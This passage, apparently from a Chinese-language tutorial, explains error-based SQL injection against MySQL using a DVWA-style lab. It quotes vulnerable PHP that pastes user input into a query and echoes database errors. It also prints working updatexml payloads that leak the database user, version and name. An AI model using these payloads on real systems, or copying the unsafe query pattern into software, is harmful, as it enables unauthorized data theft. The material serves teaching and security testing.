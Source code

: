 ## 0x00 报错注入攻击原理
数据库错误显示是指：数据库在执行时，遇到语法不对，会显示报错信息。在程序开发期间，开发者需要知道报错信息，方便进行调试，定位文件错误。  
特别是php在执行sql语句时一般会采用异常处理函数，捕获错误信息。其中mysqli_error()和mysqli_connect_error()会将语法错误信息显示到页面上。  
如果存在SQL注入且有报错信息返回，就可以采用报错注入。

## 0x01 报错注入代码分析
```php
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or 
die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
```
在上面我们可以看到两个报错函数，会把错误信息显示到网页上。

## 0x02 报错注入攻击过程
在确定存在注入点后，我们首先获取数据库库名，可以用一个SQL中不存在的函数去爆库名。
```bash
mysql> select username,password from users where id=1 and info();
ERROR 1305 (42000): FUNCTION moonsec.info does not exist
```
原理是我们使用了数据库中不存在的函数，就会回显哪个库的 XX 方法不存在，这样我们就得到了当前数据库库名。  
利用updatexml函数的Xpath报错回显信息，我们可以得到很多数据库关键信息，包括用户和数据库版本等。
```bash
mysql> select * from users where user_id='1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'

mysql> select * from users where user_id='1' and (updatexml(1,concat(0x7e,(select version()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~5.7.33-0ubuntu0.16.04.1~'

mysql> select * from users where user_id='1' and (updatexml(1,concat(0x7e,(select database()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~dvwa~'
```
updatexml函数是MySQL中用于修改xml数据的函数，语法为：updatexml(xml_target, xpath_expr, new_value)。这里目的不是修改XML，而是通过提供无效的xpath_expr来触发错误。

## 0x03 为什么使用0x7e来包裹回显信息？
使用0x7e（波浪号 ~）包裹回显信息，一方面可以提高可读性，另一方面0x7e在MySQL中没有任何含义，可以避免与MySQL、XML和Xpath中的特殊符号发生冲突。  
像 @ 或 " 这样的符号在某些上下文中可能具有特殊含义，会导致解析错误或语法错误。使用 ~ 符号可以有效避免这些冲突，确保回显信息不受影响。

## 0x04 updatexml函数作用
updatexml() 函数是 MySQL 用于操作 XML 数据的函数，它的主要功能是根据指定的 XPath 表达式来修改 XML 文档中的内容。函数语法：
```sql
updatexml(XML_document, XPath_expression, new_value)
```
- XML_document：表示要处理的 XML 数据（通常是一个字符串）。
- XPath_expression：用于定位 XML 文档中的某个节点或属性的 XPath 表达式。
- new_value：表示将要插入的新的值，用来替换由 XPath 表达式定位的原内容。  
假设有一个XML文档如下，记录简单用户信息：
```xml
<users>
    <user>
        <id>1</id>
        <name>John</name>
    </user>
    <user>
        <id>2</id>
        <name>Jane</name>
    </user>
```